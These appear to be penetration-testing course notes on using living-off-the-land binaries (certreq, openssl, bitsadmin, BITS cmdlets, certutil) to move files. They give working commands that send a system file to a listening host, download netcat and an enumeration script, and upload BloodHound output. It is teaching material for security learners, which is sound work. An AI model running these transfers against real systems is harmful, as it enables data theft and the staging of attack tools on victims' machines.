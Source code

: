 ## LOLBins
* `LOLBins` (Living off the Land binaries)
	-   Download
	-   Upload
	-   Command Execution
	-   File Read
	-   File Write
	-   Bypasses

## Using the LOLBAS and GTFOBins Project
### LOLBAS
* To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`
* Example for `CerReq.exe`

```powershell
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini

Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

```sh
$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### GTFOBins
* To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`
* For example OpenSSL

```sh
$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

```sh
$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

```sh
$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools
#### File Download with Bitsadmin
```powershell
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Download
```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload
```powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

